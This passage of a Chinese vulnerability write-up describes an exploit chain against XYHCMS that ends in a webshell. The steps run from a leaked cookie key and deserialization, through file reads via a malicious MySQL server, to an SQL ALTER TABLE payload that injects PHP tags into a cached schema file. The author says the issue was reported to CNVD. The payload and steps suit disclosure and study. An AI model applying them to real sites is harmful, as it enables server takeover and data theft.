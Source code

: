 test/123456登录

如果需要注数据，可以尝试把数据插在一些无关紧要的地方，比如留言板。

/index.php?s=/Guestbook/index.html

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t010e973ffecf1ba8fd.png)

同理，权限足够也可以直接利用outfile或者general_log来getshell。

如果权限不够怎么办呢？使用序列化数据存储为php文件实在非常危险，翻翻缓存文件夹。发现数据库列的信息也以序列化形式存储在php文件当中。

/App/Runtime/Data/_fields/xyhcms.xyh_guestbook.php

[![](https://p4.ssl.qhimg.com/t0155ba5d6bc633e735.png)](https://p4.ssl.qhimg.com/t0155ba5d6bc633e735.png)

此时我们需要清理一下缓存

[![](https://p5.ssl.qhimg.com/t01d48d07a18745e084.png)](https://p5.ssl.qhimg.com/t01d48d07a18745e084.png)

然后反序列化操纵mysql新增一个无关紧要的列名为&lt;script language=’php’&gt;phpinfo();&lt;/script&gt;

PS：这里不能用问号，暂时不清楚原因。

“where” =&gt; “id=0;alter table xyh_guestbook add column `&lt;script language=’php’&gt;phpinfo();&lt;/script&gt;` varchar(10);”

最后再访问一下前台的留言板，或者后台的留言本管理，生成缓存文件。

/index.php?s=/Guestbook/index.html

最终getshell

/App/Runtime/Data/_fields/xyhcms.xyh_guestbook.php

[![](https://p2.ssl.qhimg.com/t011a2fcdae74e261bd.png)](https://p2.ssl.qhimg.com/t011a2fcdae74e261bd.png)

总结一下

1，要求php5.x版本

2，/App/Runtime/Data/config/site.php泄露CFG_COOKIE_ENCODE

3，制作POC，获得反序列化payload

4，最好开放会员注册，检查/index.php?s=/Home/Public/login.html

然后向/index.php?s=/Public/loginChk.html，/index.php?s=/Home/Member/index.html等需要cookie的接口传递paylaod。Cookie键值为uid，nickname等。

5，访问一些php文件，通过报错获取绝对路径。

6，通过恶意mysql服务器，读取配置文件，获取数据库信息。

7，操作数据库。

8，getshell

这是一个非常冗长而有意思的漏洞利用链。

已上交CNVD-2021-05552
